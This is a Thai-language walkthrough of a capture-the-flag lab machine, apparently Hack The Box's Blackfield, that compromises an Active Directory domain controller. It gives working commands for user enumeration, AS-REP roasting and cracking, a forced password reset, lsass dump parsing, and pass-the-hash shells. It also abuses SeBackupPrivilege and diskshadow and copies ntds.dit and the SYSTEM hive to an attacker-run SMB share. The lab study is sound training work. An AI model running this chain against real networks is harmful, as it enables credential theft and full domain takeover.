

# Recon 

```bash 
nmap -Pn -sCV 10.10.10.192
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-22 23:05 EDT
Nmap scan report for 10.10.10.192
Host is up (0.037s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-23 09:44:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-23T09:44:49
|_  start_date: N/A
|_clock-skew: 6h39m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.29 seconds

```

## SMB Recon


```bash
smbclient -N -L //10.10.10.192 
# พบ Profile ซึ่งคาดว่าจะเป็น User 
smbclient -N  //10.10.10.192/profiles$
```

create user.txt โดยตัด
```
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
AHigchens
AJaquemai
AKlado
AKoffenburger
AKollolli
AKruppe
AKubale
ALamerz
AMaceldon
AMasalunga
ANavay
ANesterova
ANeusse
AOkleshen
APustulka
ARotella
ASanwardeker
AShadaia
ASischo
ASpruce
ATakach
ATaueg
ATwardowski
audit2020
AWangenheim
AWorsey
AZigmunt
BBakajza
BBeloucif
BCarmitcheal
BConsultant
BErdossy
BGeminski
BLostal
BMannise
BNovrotsky
BRigiero
BSamkoses
BZandonella
CAcherman
CAkbari
CAldhowaihi
CArgyropolous
CDufrasne
CGronk
Chiucarello
Chiuccariello
CHoytal
CKijauskas
CKolbo
CMakutenas
CMorcillo
CSchandall
CSelters
CTolmie
DCecere
DChintalapalli
DCwilich
DGarbatiuc
DKemesies
DMatuka
DMedeme
DMeherek
DMetych
DPaskalev
DPriporov
DRusanovskaya
DVellela
DVogleson
DZwinak
EBoley
EEulau
EFeatherling
EFrixione
EJenorik
EKmilanovic
ElKatkowsky
EmaCaratenuto
EPalislamovic
EPryar
ESachhitello
ESariotti
ETurgano
EWojtila
FAlirezai
FBaldwind
FBroj
FDeblaquire
FDegeorgio
FianLaginja
FLasokowski
FPflum
FReffey
GaBelithe
Gareld
GBatowski
GForshalger
GGomane
GHisek
GMaroufkhani
GMerewether
GQuinniey
GRoswurm
GWiegard
HBlaziewske
HColantino
HConforto
HCunnally
HGougen
HKostova
IChristijr
IKoledo
IKotecky
ISantosi
JAngvall
JBehmoiras
JDanten
JDjouka
JKondziola
JLeytushsenior
JLuthner
JMoorehendrickson
JPistachio
JScima
JSebaali
JShoenherr
JShuselvt
KAmavisca
KAtolikian
KBrokinn
KCockeril
KColtart
KCyster
KDorney
KKoesno
KLangfur
KMahalik
KMasloch
KMibach
KParvankova
KPregnolato
KRasmor
KShievitz
KSojdelius
KTambourgi
KVlahopoulos
KZyballa
LBajewsky
LBaligand
LBarhamand
LBirer
LBobelis
LChippel
LChoffin
LCominelli
LDruge
LEzepek
LHyungkim
LKarabag
LKirousis
LKnade
LKrioua
LLefebvre
LLoeradeavilez
LMichoud
LTindall
LYturbe
MArcynski
MAthilakshmi
MAttravanam
MBrambini
MHatziantoniou
MHoerauf
MKermarrec
MKillberg
MLapesh
MMakhsous
MMerezio
MNaciri
MShanmugarajah
MSichkar
MTemko
MTipirneni
MTonuri
MVanarsdel
NBellibas
NDikoka
NGenevro
NGoddanti
NMrdirk
NPulido
NRonges
NSchepkie
NVanpraet
OBelghazi
OBushey
OHardybala
OLunas
ORbabka
PBourrat
PBozzelle
PBranti
PCapperella
PCurtz
PDoreste
PGegnas
PMasulla
PMendlinger
PParakat
PProvencer
PTesik
PVinkovich
PVirding
PWeinkaus
RBaliukonis
RBochare
RKrnjaic
RNemnich
RPoretsky
RStuehringer
RSzewczuga
RVallandas
RWeatherl
RWissor
SAbdulagatov
SAjowi
SAlguwaihes
SBonaparte
SBouzane
SChatin
SDellabitta
SDhodapkar
SEulert
SFadrigalan
SGolds
SGrifasi
SGtlinas
SHauht
SHederian
SHelregel
SKrulig
SLewrie
SMaskil
Smocker
SMoyta
SRaustiala
SReppond
SSicliano
SSilex
SSolsbak
STousignaut
support
svc_backup
SWhyte
SWynigear
TAwaysheh
TBadenbach
TCaffo
TCassalom
TEiselt
TFerencdo
TGaleazza
TKauten
TKnupke
TLintlop
TMusselli
TOust
TSlupka
TStausland
TZumpella
UCrofskey
UMarylebone
UPyrke
VBublavy
VButziger
VFuscca
VLitschauer
VMamchuk
VMarija
VOlaosun
VPapalouca
WSaldat
WVerzhbytska
WZelazny
XBemelen
XDadant
XDebes
XKonegni
XRykiel
YBleasdale
YHuftalin
YKivlen
YKozlicki
YNyirenda
YPredestin
YSeturino
YSkoropada
YVonebers
YZarpentine
ZAlatti
ZKrenselewski
ZMalaab
ZMiick
ZScozzari
ZTimofeeff
ZWausik

```

## User Enum using Kerbrute 

ติดตั้ง Kerbrute เพื่อตรวจสอบชื่อผู้ใช้ที่สามารถใช้งานได้ จาก List ที่ได้มา โดย LDAP จะมีการใช้โดเมน blackfield.local ซึ่งจะเห็นได้ว่ามี ชื่อผู้ใช้อยู่ 3 ชื่อที่ใช้งานได้ 
```bash
sudo apt install golang -y
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
sudo mv kerbrute /usr/local/bin/
kerbrute -h

kerbrute userenum -d 'blackfield.local' --dc  10.10.10.192 ./users.txt -v 

2025/05/22 23:55:54 >  [+] VALID USERNAME:       audit2020@blackfield.local
2025/05/22 23:57:46 >  [+] VALID USERNAME:       support@blackfield.local
2025/05/22 23:57:51 >  [+] VALID USERNAME:       svc_backup@blackfield.local

```

# AS-REQ Roaster

จากนั้นเราจะหา Credential ของชื่อผู้ใช้งานที่เราหามาได้ โดยใช้วิธีโจมตีด้วยวิธี AS-REQ Roaster 

```bash
impacket-GetNPUsers -request -format hashcat  -outputfile hashes.asreproast -usersfile validuser.txt -dc-ip 10.10.10.192 blackfield.local/
```


## Crack Hash

```bash
hashcat --help | grep -i "Kerberos"

  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force 
```

credential FOUND: 

```
support@blackfield.local:#00^BlackKnight
```

จากนั้นลองทดสอบใช้ข้อมูล Credential ดังกล่าว จะพบว่ามีสิทธิเข้าถึง SMB แบบ Guest แต่เมื่อตรวจสอบจะไม่พบอะไรที่ไปต่อได้ 


## Bloodhound 

ทำการ Dump ด้วย Bloodhound-Python เพื่อตรวจสอบความเชื่อมโยงของ User ดังกล่าว
```bash
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```
เมื่อตรวจสอบจะเห็นว่า User: Support สวามารถเปลี่ยนรหัสผ่านของ audit2020 ได้ 


```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U support //10.10.10.192
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2
Usage: setuserinfo2 username level password [password_expired]
result was NT_STATUS_INVALID_PARAMETER

## รหัสผ่านง่ายไป ติด Password policy
rpcclient $> setuserinfo2 audit2020 23 'password'
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION

rpcclient $> setuserinfo2 audit2020 23 'P@ssw0rd@@@'
rpcclient $> 

```


ตรวจสอบสิทธิด้วย smbmap จะเห็นว่า audit2020 สามารถเข้าถึงไฟล์ forensic ได้แล้ว
```bash
smbmap -H 10.10.10.192 -u audit2020 -p 'P@ssw0rd@@@'
```

ภาพด้านบนเป็นของ audit2020 และภาพด้านล่างเป็นของ support จะเห็นได้ว่าสิทธิการเข้าถึงแตกต่างกัน


จากนั้นทดสอบเข้าไปยัง forensic ด้วย user: audit2020
```bash
smbclient  -N //10.10.10.192/forensic -U audit2020@blackfield.local --password=P@ssw0rd@@@
```

ภายใต้ folder memory_analysis มีข้อมูลของ lsass อยู่ให้ทำการแตกไฟล์ zip แล้วเปิดด้วย mimikatz บน linux ด้วย pypykatz 

```bash
pipx install pypykatz
pypykatz lsa minidump lsass.DMP


INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
                AES128 Key: 9658d1d1dcd9250115e2205d9f48400d
                AES256 Key: 20a3e879a3a0ca4f51db1e63514a27ac18eef553d8f30c29805c398c97599e91
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

```

ซึ่งจากการ dump ข้อมูลดังกล่าวจะทำให้เราเป็น NTLM ของ svc_backup ดังต่อไปนี้ 

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

ตรวจสอบ Credential ที่ได้ 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service blackfield.local -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'; done
```
จากข้อมูลจะพบว่าสามารถเข้าถึงได้โดย winrm และ ldap 


## Shell As svc_backup

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
หลังจากที่ Shell เข้ามาด้วยสิทธิของ svc_backup มาได้จะเห็นว่าเรามีสิทธิ์ของ SeBackupPrivilege ซึ่งเป็นสิทธิที่สามารถอ่านไฟล์ที่มีสิทธิสูงได้ 


```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.


```

> [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.

# Priv Es
## Copy-FileSeBackupPrivilege

Ref: https://github.com/giuliano108/SeBackupPrivilege.git 

เราสามารถใช้ Repo ด้านบนสำหรับดำเนินการใช้สิทธิ Backup ได้ จากนั้นเราจะทำการ upload module จำนวน 2 โมดูลประกอบไปด้วย SeBackupPrivilegeCmdLets.dll และ SeBackupPrivilegeUtils.dll 

```bash
upload SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll

## จากนั้นเราจะ Import-module ผ่าน evil-winrm 
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
```
เราจะทำการทดสอบอ่านข้อมูลภายใต้ system32 ซึ่งจะเห็นได้ว่าไม่สามารถอ่านได้ แต่เรากลับสามารถ Copy ไฟล์ไปไว้ที่ path ที่กำหนดแล้วอ่านได้ ตามภาพด้านล่าง 


แต่น่าเสียดายที่เราไม่สามารถทำแบบนี้ได้กับไฟล์ root.txt หรือไฟล์ ntds.dit ได้ 

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt ice.txt 
```


## DiskShadow

เครื่องมือที่ดีในการอ่านไฟล์ ntds.dit คือ **Diskshadow.exe** ซึ่งเป็นยูทิลิตี้ของ Microsoft ที่ใช้งานฟังก์ชันของ **Volume Shadow Copy Service (VSS)**
- โดยปกติ Diskshadow ใช้โหมด interactive (แบบพิมพ์คำสั่งสดๆ) แต่หากไม่มี desktop environment (เช่นใน shell ของ pentester) ควรใช้ **script mode** แทน โดยเขียนคำสั่งลงไฟล์ .txt แล้วสั่งให้ Diskshadow ทำตาม
- เป้าหมายคือการสร้าง **Shadow Copy ของไดรฟ์ C:** เพื่อ map เป็นไดรฟ์ใหม่ (เช่น Z:) ซึ่งจะสามารถ **เข้าถึงไฟล์ที่ปกติถูกล็อกอยู่บนไดรฟ์ C:** ได้ เช่น ntds.dit (ฐานข้อมูลของ AD)

อ้างอิงข้อมูลเขียน Script : https://pentestlab.blog/tag/diskshadow/ 

สร้างไฟล์ ==vss.dsh== แล้วนำไป upload บนเครื่องเป้าหมาย

```script
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```


```bash
## On Kali 
sudo apt install dos2unix
unix2dos vss.dsh
upload vss.dsh c:\programdata\vss.dsh

## On Target Windows 
diskshadow /s c:\programdata\vss.dsh
```


จากนั้นเราจะเปิด server smb สำหรับรับข้อมูลจากเป้าหมาย 

```bash
## Kali Linux
impacket-smbserver s . -smb2support -username df -password df 
```

ทำการเชื่อมต่อกลับไปที่ kali 
```powershell
# Windows Target
*Evil-WinRM* PS C:\programdata> net use \\10.10.14.34\s /u:df df
The command completed successfully.


*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.34\s\ntds.dit

*Evil-WinRM* PS C:\programdata>Copy-FileSeBackupPrivilege z:\Windows\System32\config\SYSTEM \\10.10.14.34\s\system.hiv

*Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.34\system
```

## Shell as administrator

```bash
impacket-secretsdump -system system.hiv -ntds ntds.dit LOCAL
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```